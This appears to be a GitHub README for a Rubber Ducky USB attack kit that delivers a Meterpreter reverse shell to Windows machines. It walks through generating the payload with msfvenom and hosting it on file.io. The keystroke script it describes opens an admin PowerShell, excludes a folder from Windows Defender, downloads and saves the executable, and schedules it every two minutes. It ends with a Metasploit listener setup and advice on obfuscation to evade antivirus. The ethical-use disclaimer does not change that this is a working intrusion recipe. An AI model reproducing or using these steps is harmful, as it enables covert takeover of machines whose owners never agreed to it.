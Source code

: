 

# Reverse Shell Payload Script

This repository contains a Rubber Ducky script that automates disabling Windows Defender and launching a PowerShell reverse shell to establish a persistent connection with a remote server. This script is intended for educational and authorized security testing purposes only.

## **Disclaimer**

> ⚠️ This tool is for ethical hacking and penetration testing **with permission** only. Unauthorized use of this script against a system without consent is strictly prohibited. Misuse may lead to legal consequences.

## **Features**

- Disables Windows Security (specifically, Virus & Threat Protection)
- Executes a hidden PowerShell reverse shell command to connect to a remote server

## Prerequisites
- Linux Device: `createMeterpreter.sh` is intended to run on a Linux system with access to Metasploit Framework (msfvenom) and curl.
- Windows Target: The target machine must be Windows-based to execute the payload.
- File.io: The `createMeterpreter.s`h script uses file.io for file hosting and downloading.
- ensure you have the following installed:
- Metasploit Framework (msfvenom)
- curl
- A web browser or terminal to access the `file.io` link for downloading the payload


## How to Use
### 1. Generate and Upload the Payload
- Run the createMeterpreter.sh script on your Linux machine:

```
chmod +x createMeterpreter.sh
./createMeterpreter.sh
```
The script will prompt you for two inputs:

- URL: Enter the public IP or a URL (e.g., 0.tcp.in.ngrok.io if using Ngrok).
- Port: Enter the port number (e.g., 18054).
- The script will generate the Meterpreter payload using msfvenom, save it as meterpreter.exe, and upload it to file.io. After uploading, - The script will print a unique URL for the uploaded file (e.g., https://file.io/noTLXo6PXXKX).

### 2. Modify the Payload URL in the payload.dd Script
- Copy the file.io URL from the output of createMeterpreter.sh and replace the placeholder URL in the payload.dd script.

#### Example:

```
STRING Invoke-WebRequest -Uri https://file.io/noTLXo6PXXKX -OutFile C:\Users\Public\meterpreter.exe
Ensure that the URL in payload.dd corresponds to the file you just uploaded.
```
### 3. Use the Rubber Ducky to Execute the Payload
- The payload.dd script is designed for use with a Rubber Ducky USB HID device. When the device is plugged into the target Windows machine, it will automatically execute the following actions:

- Open PowerShell with administrative privileges.
- Disable Windows Defender real-time protection for the path C:\Users\Public.
- Download the Meterpreter payload from file.io using the link you modified in step 2.
- Save the payload to C:\Users\Public\meterpreter.exe.
- Create a scheduled task to execute the payload every 2 minutes.
- To use the script, compile it into a .bin file and load it onto your Rubber Ducky device using the DuckEncoder tool:

```
java -jar duckencode.jar -i payload.dd -o payload.bin
```
Then, load the payload.bin onto your Rubber Ducky and insert it into the target Windows machine.

## 4. Start the Listener in Metasploit
- Once the payload is executed on the target system, you can start a listener on your Linux machine using Metasploit to catch the       
  Meterpreter session:

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <your_port>
exploit
```
Replace <your_ip> and <your_port> with the values you used in createMeterpreter.sh.

Once the target system triggers the payload, you will gain access to the Meterpreter session in Metasploit.

## Troubleshooting
- File not downloading: Ensure the URL is correct in the payload.dd script and that the file is still available on file.io.
- Firewall or antivirus: The payload may be blocked by the target system's antivirus. Try using obfuscation techniques or alternative file-sharing services if necessary.
- Metasploit session issues: Make sure the Metasploit listener (multi/handler) is properly configured with the correct LHOST and LPORT.
Notes
- This project is intended for educational purposes only. Always get explicit permission before attempting to use this technique on any system.
- Ensure you're complying with legal and ethical guidelines while performing penetration testing.
